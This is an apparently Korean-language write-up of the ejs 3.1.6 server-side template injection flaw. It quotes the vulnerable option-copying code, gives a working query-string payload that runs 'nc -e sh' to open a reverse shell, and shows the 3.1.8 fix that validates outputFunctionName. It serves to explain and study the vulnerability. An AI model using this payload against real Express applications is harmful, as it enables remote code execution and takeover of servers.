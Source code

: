 #### ejs 3.1.6 PoC

기존 3.1.6 버전에서는 아래의 코드에서 SSTI 취약점이 발견되어 RCE가 가능하였다.

```javascript
if (args.length) { // 정해진 parameter 아닌 경우
   // Should always have data obj
   data = args.shift();    // input text
   // Normal passed opts (data obj + opts obj)
   if (args.length) {
   // Use shallowCopy so we don't pollute passed in opts obj with new vals
   utils.shallowCopy(opts, args.pop());
   }
   // Special casing for Express (settings + opts-in-data)
   else {
      viewOpts = data.settings['view options'];
      if (viewOpts) {
         utils.shallowCopy(opts, viewOpts);
      }
   }
}

...

prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

첫 if문에서 정해진 parameter가 아닌 경우 `viewOpts`이라는 Object를 이용하여 해당 Object의 `view options`이라는 settings 값을 이용하여 `shallowCopy`를 하게 된다.

shallowCopy된 변수는 `opts.outputFunctionName`의 setting 값을 통해서 입력한 데이터를 Copy하게 되어 RCE를 진행할 수 있다.

`shallowCopy`는 입력 데이터를 통해 template options을 변경할 수 있기에 이를 Overwrite하여 아래와 같이 ejs 3.1.6 Exploit을 작성 할 수 있다.

```
?settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
``` 

3.1.6에서의 최종 Exploit은 이렇게 진행하였지만 3.1.8에서 패치된 것을 확인하면 아래와 같다.

```javascript
//ejs 3.1.8
var _JS_IDENTIFIER = /^[a-zA-Z_$][0-9a-zA-Z_$]*$/;

...

prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
          throw new Error('outputFunctionName is not a valid JS identifier.');
        }
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```
